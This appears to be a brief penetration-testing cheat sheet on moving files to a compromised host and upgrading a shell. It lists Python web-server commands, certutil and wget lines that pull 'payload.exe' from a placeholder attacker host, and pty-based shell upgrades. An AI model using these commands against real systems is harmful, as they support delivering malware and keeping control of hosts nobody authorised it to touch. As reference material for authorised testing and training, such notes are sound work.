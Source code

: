 # Transferring Files and Upgrading Shells
### Python Server
- python -m SimpleHTTPServer 80
- python3 -m http.server 80
### Windows
- `certutil -urlcache -f http://yourip/payload.exe payload.exe`
### Linux
- `wget http://yourip/payload.exe`
### Upgrading Shells
- /bin/bash -i
- python3 -c 'import pty; pty.spawn("/bin/bash")'
- /etc/shells --- check the shells available and update accordingly
